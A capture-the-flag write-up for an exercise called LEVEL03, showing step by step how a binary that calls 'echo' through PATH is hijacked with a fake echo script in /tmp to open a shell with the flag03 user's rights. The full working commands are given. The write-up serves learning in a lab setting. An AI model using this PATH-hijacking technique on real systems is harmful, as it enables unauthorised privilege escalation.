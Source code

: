 LEVEL03
=======

1. **See what' s in the directory**

    cmd: ```ls```
    output: ```level02```
    We notice that the file is a binary with the <u>execution permission of flag03</u>. Well then the goal is to using this breach.

2. **What does the binary file do ?**

    Use ```strace``` (for system call) or ```ltrace``` (for library call) to see what happen when we run the binary. The binary use the PATH variable to excecute ```echo```. We are going to use this breach to go up to the flag03 role: the goal is to open a shell with flag03 persmissions.

3. **Create fake echo**

    - We create a fake echo command with ```mkdir /tmp/fake_echo``` and ```echo -e '#!/bin/sh\n/bin/sh' > /tmp/fake_echo/echo```
    - Then we will add this directory to PATH in first position to force the binary to check this path: ```export PATH=/tmp/fake_echo:$PATH```
    - Don't forget to add an executable permission or it will not work ```chmod +x /tmp/fake_echo/echo```

4. **Get the flag**

    We now run the binary file and a shell is opened. We check if it worked with ```whoami``` and the result is **flag03**.